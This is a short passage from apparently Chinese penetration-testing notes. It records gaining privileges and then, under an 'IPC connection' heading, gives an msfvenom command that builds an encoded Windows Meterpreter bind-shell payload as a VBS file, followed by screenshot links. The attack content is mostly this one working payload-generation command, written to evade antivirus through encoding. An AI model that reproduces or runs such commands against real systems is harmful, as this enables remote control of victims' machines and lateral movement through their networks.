 执行成功，获得权限

![img](assets/1660656536204-06da0b61-2033-4e74-afab-ce7a701c13ed.png)



#### ipc连接

用msf生成一个木马

msfvenom -p windows/meterpreter/bind_tcp lport=443 -f vbs -e x86/shikata_ga_nai -o /tmp/msf.vbs

![img](assets/1660661093682-25283990-85db-434d-b242-2c793b45522c.png)

